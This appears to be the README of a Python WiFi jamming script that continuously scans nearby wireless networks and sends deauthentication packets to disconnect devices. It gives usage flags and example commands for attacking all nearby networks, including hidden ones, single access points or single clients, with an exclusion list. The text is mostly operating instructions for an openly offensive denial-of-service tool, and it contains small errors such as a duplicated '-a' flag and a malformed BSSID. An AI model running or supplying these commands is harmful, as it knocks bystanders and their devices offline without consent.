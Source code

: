 # WiFiJammer.py

Name: WiFiJammer.py
Description: Continuously Jams all the Devices In the Area. Start The script and take Your Device whereever you want. It will continue on scanning the nearby Wireless networks and sending Deauthentication Packets. You can also choose to leave some targets, so that they cannot get affected by the script and keep functioning as normal.  

Usage:
python [scriptname] [argument...]
python wifijammer.py --all

-a, --ap=	BSSID of Target AP
-c, --client=	BSSID of Client (Requires Access Point Mac Address)
-h, --help	This Help Manual
-o, --out=	comma-seperated BSSID's which you don't want to send Deauth Packets
-a, --all	Sent Deauth Packets to all nearby Devices.

Examples:

python wifijammer.py --all
[!] This will send deauth packets to all nearby WiFi Networks. Even Hidden Networks

python wifijammer.py -a FF:FF:FF:FF:FF:FF
[!] This will send deauth packets to only a specific Target Acess Point

python wifijammer.py -a FF:FF:FF:FF:FF:FF -c FF:FF:FF:FF:FF:FF
[!] This will send deauth packets to a specific client of a specific Access Point

python wifijammer.py --all --out=FF:FF:FF:FF:FF:FF,BB:BB:BB:BB:BB:BB:BB
[!] This will send deauth packets to all nearby devices other than FF:FF:FF:FF:FF:FF and BB:BB:BB:BB:BB:BB
